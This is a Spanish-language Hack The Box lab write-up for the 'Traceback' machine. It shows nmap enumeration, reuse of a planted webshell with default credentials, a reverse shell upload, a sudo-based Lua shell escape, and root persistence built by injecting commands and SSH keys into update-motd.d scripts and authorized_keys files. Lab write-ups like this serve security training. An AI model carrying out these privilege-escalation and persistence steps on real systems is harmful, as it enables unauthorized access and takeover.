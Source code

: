 ```yaml
---
title: "HTB – Traceback"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2020/traceback.png"
categories:
  - WriteUp
---
```


OS 				 | LINUX
Desarrollado por | Xh4H
Dificultad 		 | Fácil
Liberación 		 | 14 marzo 2020
Puntos 			 | 20

## Enumeración

Al usar nmap utilizando **nmap -sCV -A 10.10.10.181** solo encontramos que está abierto el puerto 22 (SSH) y 80 (web).

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-20 01:42 BST
Nmap scan report for 10.10.10.181
Host is up (0.079s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
| 256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_ 256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint: OS:SCAN(V=7.80%E=4%D=4/20%OT=22%CT=1%CU=43037%PV=Y%DS=2%DC=T%G=Y%TM=5E9CF01 OS:1%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=102%TI=Z%CI=Z%II=I%TS=A)OPS( OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11 OS:NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN( OS:R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R= OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F= OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD= OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT ADDRESS
1 77.21 ms 10.10.14.1
2 77.32 ms 10.10.10.181

OS and Service detection performed. Please report any incorrect results at Nmap done: 1 IP address (1 host up) scanned in 24.47 seconds
```

Por lo que se empieza a buscar información en el código fuente de la página web, mientras se ejecuta la **dirbuster** para buscar paginas ocultas y poder acceder a ellas.

No se encuentra información importante por lo que se utiliza google para buscar nuevas soluciones. Encontramos que el creador posteo en su twitter algunas webshell interesantes.

![Traceback 1](/assets/images/post/2020/traceback1.png)

Al usar este nuevo listado en **dirbuster** con el nuevo listado descubrimos un archivo llamado smevk.php y al revisar el codigo de este en internet descubrimos que se puede acceder con el usuario admin/admin

![Traceback 2](/assets/images/post/2020/traceback2.png)

Acá nos permitirá crear nuestro propio archivo php, en este caso crearemos un php con una shell reverse, al ejecutarla accedemos a nuestra primera shell.

## 1° Shell

Al cargar esta shell accedemos al sistema con el usuario webadmin, por lo que nos ponemos a revisar sus carpetas, el historial y los permisos que este posee con **sudo –l**

Se ve que el usuario creó un archivo privesc.lua y despues lo elimina, sin antes ejecutarlo

```
Matching Defaults entries for webadmin on traceback:
	env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
	(sysadmin) NOPASSWD: /home/sysadmin/luvit
```

<p>Nos damos cuenta que podemos ejecutar un programa sin la password del usuario sysadmin, además creamos uno archivo lua, en el cual posea el comando <b>echo 'os.execute("/bin/sh")' > racso.lua</b>. Una vez que lo ejecutamos tal como se mostró en el historial podemos acceder a la shell del usuario</p>

## Shell Usuario

<p>Al escalar el privilegio obtenemos la primera flag, luego empezamos a buscar alguna otra forma de subir el privilegio a root, lo primero que vemos son los procesos <b>ps –aux</b> y nos llama la atención una que es ejecutada por <p>root</p> <i>(/bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/)</i> y lo que nos dice que se ejecuta el archivo 00-header cada vez que hay una conexión exitosa de SSH.</p>

Por otro lado, encontramos en la carpeta **.ssh** del usuario los archivos de autorización de las conexiones, es por ello que, ingresaremos nuestro propio ssh-rsa a este archivo para que sea válido al momento de conectarnos

- Creamos nuestro rsa con **ssh-keygen -t rsa**
- Copiamos este rsa.pub generado en el archivo **authorized_keys** escribiendo
	echo “TODO LO QUE EL ARCHIVO ID_RSA.PUB CONTENGA” >> /home/sysadmin/.ssh/authorized_keys
- Ejecutamos una conexión ssh desde nuestro equipo utilizando el id_rsa creado **ssh –i id_rsa sysadmin@10.10.10.181**

Lo que permitirá acceder vía ssh a la máquina, el problema es que hasta el momento mantenemos el mismo nivel de usuario.

Al seguir investigando sobre update-motd.d que está en la carpeta /etc/ nos percatamos que el usuario sysadmin tiene permiso de escritura para el archivo 00-header, por lo que ingresaremos un comando donde nos mostrará la flag.

<p>Si escribimos echo <b>"cat /root/root.txt" >> /etc/update-motd.d/00-header</b> tal como averiguamos antes cargará este comando al momento de acceder a la termina vía ssh mostrandonos la flag al acceder, sin obtener la shell root.</p>

## Root shell

No es necesario acceder a esta shell si solo quieren obtener las flag, pero si de igual forma quieren acceder se puede usar el mecanismo anterior pero ahora guardando la clave publica en el archivo authorized_keys del root, para ello escribimos lo siguiente

```
echo "echo \" LO QUE ESTA EN EL ID_RSA.PUB \" >> /root/.ssh/authorized_keys" >> /etc/update-motd.d/00-header
```

Ingresamos nuevamente como sysadmin, para que ejecute el comando y ahora al salir de la maquina podremos volver a conectarnos, pero con el usuario root

```
root@traceback:~# id && date uid=0(root) gid=0(root) groups=0(root) Sun Apr
```

![Racso](https://www.hackthebox.com/badge/image/159593)